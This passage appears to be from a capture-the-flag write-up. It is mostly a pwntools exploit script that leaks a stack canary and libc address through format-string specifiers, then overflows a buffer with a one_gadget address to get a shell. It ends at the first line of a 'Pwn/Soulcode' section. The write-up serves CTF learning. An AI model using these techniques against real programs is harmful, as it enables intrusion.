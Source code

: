 ```py
	p.sendline(str(circle))
	p.recvuntil(': ')
	p.sendline(date)
	print(p.recv())
	return pos 

def remove(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def edit(pos):
	p.sendline("2")
	p.recvuntil(': ')
	p.sendline(str(pos))
	print(p.recv())

def view(pos):
	p.sendline("4")
	p.recvuntil(': ')
	p.sendline(str(pos))
	return p.recv()

def extract_fsb_leak(leak):
	return int(leak.split(b'\n')[2].split(b": ")[1], 16)

p.recvuntil('> ')

leak_canary_chunk = insert(1, 'A' * (0x20-1), 1, b'%9$p: aaaaa\x00')
leak = view(leak_canary_chunk)
canary = extract_fsb_leak(leak)


leak_libc_chunk = insert(3, 'C' * (0x20-1), 1, b'%15$p: aaaa\x00')
leak = view(leak_libc_chunk)
libc_leak = extract_fsb_leak(leak)

libc.address = libc_leak - 0x29d90

print(hex(canary), hex(e.address), hex(libc.address))

bof_chunk = insert(2, 'E' * (0x20 - 1), 2, b'B'*11+b'\x00'*29 + p64(canary) + p64(0) + p64(0x50a37+libc.address))
p.interactive()
```

## Pwn/Soulcode

The idea in this challenge is simple:
